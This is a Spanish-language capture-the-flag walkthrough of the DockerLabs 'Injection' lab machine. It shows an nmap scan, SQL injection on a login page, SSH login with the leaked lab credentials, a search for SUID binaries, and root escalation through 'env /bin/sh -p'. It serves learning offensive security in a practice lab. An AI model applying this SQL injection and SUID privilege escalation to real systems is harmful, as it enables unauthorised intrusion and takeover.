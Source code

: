 ```yaml
---
{"-publish":true,"permalink":"/dockerlabs/muy-facil/injection/","PassFrontmatter":true}
---
```


![Pasted image 20250525004817.png](/img/user/imgs/Pasted%20image%2020250525004817.png)


Empezamos haciendo un nmap para ver los puertos abiertos de la ip:

```
nmap -sCV -T5 172.17.0.2 -v -oN injection
```

![Pasted image 20250525005259.png](/img/user/imgs/Pasted%20image%2020250525005259.png)

Obsevamos que tenemos el puerto 22 y 80 abierto, vamos a colocar la ip dentro de firefox:

![Pasted image 20250525005437.png](/img/user/imgs/Pasted%20image%2020250525005437.png)

Tenemos un login y como dice su mismo nombre dice injection podemos intuir alguna injeccion sql, por lo cual probamos un payload basico.

![Pasted image 20250525005521.png](/img/user/imgs/Pasted%20image%2020250525005521.png)

Listo nos vota una password y un usuario, por lo tanto tambien sabemos que tenemos el puerto ssh(22) abierto entonces intentamos con las credenciales.

```
dylan:KJSDFG789FGSDF78
```

Y listo tenemos acceso a ssh:
![Pasted image 20250525005723.png](/img/user/imgs/Pasted%20image%2020250525005723.png)

Para terminar la maquina debemos ser root, por lo tanto buscare binarios.

```
find / -perm -4000 -type f 2>/dev/null
```

![Pasted image 20250525010906.png](/img/user/imgs/Pasted%20image%2020250525010906.png)

Encontramos esos binarios y si usamos la siguiente pagina: https://gtfobins.github.io/gtfobins/env/
- Observamos que le binario env si tiene el bit SUID activado, no elimina los privilegios elevados y puede usarse de forma abusiva para acceder al sistema de archivos, escalar o mantener el acceso privilegiado como una puerta trasera SUID.
Y como verificamos?
- Usaremos lo siguiente:
```
ls -l /usr/bin/env
```

y nos saldra:
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```

Ese **s** en lugar de **x** en los permisos de usuarios (rws) significa que el bit SUID esta activado, y env se ejecuta con privilegios de root, aunque tu seas dylan.

Entonces al hacer:
```
env /bin/sh -p
```

1. env: se ejecuta con privilegios de root (por el SUID).
2. env lanza /bin/sh con -p
3. sh -p dice: **no bajes privilegios, mantenme como root**
4. Resultado: una shell con UID 0 -> root

Para entenderlo mejor que es el SUID?
- El SUID es como un disfraz que permite a dylan hacer todo lo que podria hacer un usuario root.
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```
Este programa tiene le disfraz magico (SUID) de la autoridad (root).

![Pasted image 20250525015818.png](/img/user/imgs/Pasted%20image%2020250525015818.png)

Finnalmente somos root.

thanks.